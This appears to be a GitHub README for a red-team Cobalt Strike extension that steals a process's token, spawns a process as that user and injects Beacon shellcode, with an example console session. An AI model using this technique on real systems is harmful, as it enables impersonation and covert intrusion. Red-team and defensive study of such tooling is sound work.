 ## SpawnWith
 
An experimental Beacon Object File (BOF) that provides an alternative to the `spawnas` and `inject` commands.  This exposes a new command, `spawn_with [pid] [listener]`, that performs the following:

1. Obtain a handle to the target process.
2. Obtain a handle to the process' primary token.
3. Duplicate the primary token to an impersonation token.
4. Get the Beacon `spawnto` value.
5. Attempt to spawn a new process with the duplicated token using `CreateProcessWithTokenW`.
   - If this attempt fails, try `CreateProcessAsUserW`.
6. Inject the Beacon shellcode into the spawned process.
   - Link to the Beacon in the case of P2P.


### Example

```
beacon> getuid
[*] You are DESKTOP-1U6AHIU\Daniel (admin)

beacon> ps
22656 21972 wordpad.exe   x64   1   DESKTOP-1U6AHIU\test_user

beacon> spawnto x64 %windir%\sysnative\notepad.exe

beacon> spawn_with 22656 tcp-local
[*] Task Beacon to run windows/beacon_bind_tcp (127.0.0.1:4444)
[+] received output:

Spawned PID 45668 and injected 297472 bytes

[+] established link to child beacon: 192.168.0.195
```

![Beacons](beacons.png)